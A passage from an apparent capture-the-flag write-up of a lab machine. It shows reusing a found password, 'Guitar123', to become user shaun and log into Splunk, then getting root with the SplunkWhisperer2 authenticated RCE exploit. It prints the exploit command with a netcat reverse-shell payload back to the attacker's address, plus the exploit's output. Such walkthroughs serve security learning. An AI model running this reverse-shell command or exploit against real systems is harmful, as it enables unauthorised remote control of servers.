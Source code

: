 We see a password reset request with the what looks like a possible password to me. So I try to change to user shaun using "Guitar123" and we are successful. We get the user flag. Next up is root. Lets finally try the Splunk port.

<img src="/images/doctor/splunk.png" width="1000">

When I click on the links it asked for creds and we can login using the the creds "shaun:Guitar123". But Even After logging in I can hardly make sense of anything as I have never worked on splunk before. But I did find an [Authenticated RCE exploit](https://github.com/cnotin/SplunkWhisperer2) for splunk.

Reading the exploit I understand that the script first authenticates using the creds and then creates a malicious splunk app which when run gives us the reverse shell. 

Using the script we get a shell as root.

{%highlight text%}
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.12.22 --username shaun --password Guitar123  --payload 'nc.traditional 10.10.12.22 1234 -e /bin/bash'

Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp_4uihact.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.12.22:8181/
10.10.10.209 - - [05/Oct/2020 15:37:46] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
{%endhighlight%}

